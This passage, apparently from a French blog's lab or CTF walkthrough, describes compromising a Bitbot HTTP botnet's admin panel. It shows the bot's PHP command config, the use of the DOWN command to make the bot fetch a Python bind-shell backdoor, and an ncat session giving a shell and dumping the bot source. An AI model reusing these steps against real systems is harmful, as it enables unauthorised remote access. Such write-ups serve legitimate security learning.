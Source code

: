 ```php
$apihash = 'hashrate'; //follow readme
$crypto = 'btc'; //btc or ltc
////////////////Do Not Edit Beyond This Point///////////////////////////////////////////
$BOT_CHECKIN_INTERVAL = '60';  //seconds
$CMD_SPLIT              = '<\\\\\>';
$CMD_DOWNLOAD   = 'DOWN';
$CMD_UPDATE             = 'UPDATE';
$CMD_VISIT_SITE         = 'VISIT';
$CMD_REMOVE             = 'REMOVE';
$CMD_DDOS_STOP  = 'STOP';
$CMD_BTC = 'MINE';
$CMD_STOPBTC = 'STOPMINE';
?>
```

Je sens que je vais conclure
----------------------------

On peut ainsi se connecter avec les identifiants d’administration sur */admin.php*.  

L'interface permet de spécifier certaines commandes prédéfinies que les bots exécuteront à leur prochaine connexion (c'est un botnet HTTP, rappelons-le).  

![Bitbot command panel](https://raw.githubusercontent.com/devl00p/blog/master/images/bitbot_commands.png)

La commande *DOWN* semble tout indiqué pour que l'on récupère un shell mais si je lui passe l'adresse d'un *tshd* compilé statiquement ce dernier est bien récupéré mais le port de la backdoor n'est pas ouverte.  

Le bot étant écrit en Python il est probable qu'il n'accepte d'exécuter que du code Python.  

J'ai trouvé [sur pastebin une backdoor Python très basique](http://pastebin.com/nTzn08TL) qui bind() un port mais fera notre affaire :)  

```plain
$ ncat 192.168.1.29 31337 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.29:31337.
id
uid=1000(botter) gid=1000(botter) groups=1000(botter),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
cat /var/www/bot/bot.py
# -*- coding: utf-8 *-*
import httplib
import urllib
import threading
import time
import hashlib
import os

# Emulated bitbot by bwall (Brian Wallace @botnet_hunter)

class Bot():
    def __init__(self, version, country, windows, hwid, sysinfo, btc):
        self.version = version
        self.country = country
        self.windows = windows
        self.hwid = hwid
        self.sysinfo = sysinfo
        self.btc = btc
        self.connection = 0
        self.removed = False
--- snip ---
```

